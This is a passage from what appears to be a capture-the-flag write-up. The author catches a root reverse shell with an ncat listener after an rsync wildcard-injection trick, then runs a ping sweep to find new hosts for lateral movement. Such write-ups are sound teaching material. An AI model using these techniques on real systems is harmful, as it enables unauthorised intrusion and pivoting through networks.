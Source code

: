- -e, --rsh=COMMAND specify the remote shell to use

**Reference:**

- [https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt)

And started my netcat, Since its inside a container It doesn't have  a connection with my kali machine. So I just used one of the container shells we got already and Uploaded a ncat. And I got shell as root in `www`

```bash
# ./ncat -lvnp 5555
Ncat: Version 6.49BETA1 ( http://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
Ncat: Connection from 172.19.0.4.
Ncat: Connection from 172.19.0.4:49770.
bash: cannot set terminal process group (2050): Inappropriate ioctl for device
bash: no job control in this shell
root@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b# whoami
whoami
root
root@www:/tmp# hostname
hostname
www
```

Again I checked the IP address. Now this time I got new host 172.20.0.3, I did a ping sweep on it.

```bash
root@www:/tmp# ip addr
ip addr
1: lo: [LOOPBACK,UP,LOWER_UP](LOOPBACK,UP,LOWER_UP) mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
15: eth0@if16: [BROADCAST,MULTICAST,UP,LOWER_UP](BROADCAST,MULTICAST,UP,LOWER_UP) mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:14:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.20.0.3/16 brd 172.20.255.255 scope global eth0
       valid_lft forever preferred_lft forever
17: eth1@if18: [BROADCAST,MULTICAST,UP,LOWER_UP](BROADCAST,MULTICAST,UP,LOWER_UP) mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:04 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.4/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever
```

## Backup Container

```bash
root@www:/tmp# for i in $(seq 1 20); do (ping -c 1 172.20.0.$i | grep "bytes from"); done
<eq 1 20); do (ping -c 1 172.20.0.$i | grep "bytes from"); done              
64 bytes from 172.20.0.1: icmp_seq=1 ttl=64 time=0.057 ms
64 bytes from 172.20.0.2: icmp_seq=1 ttl=64 time=0.067 ms
64 bytes from 172.20.0.3: icmp_seq=1 ttl=64 time=0.038 ms
```
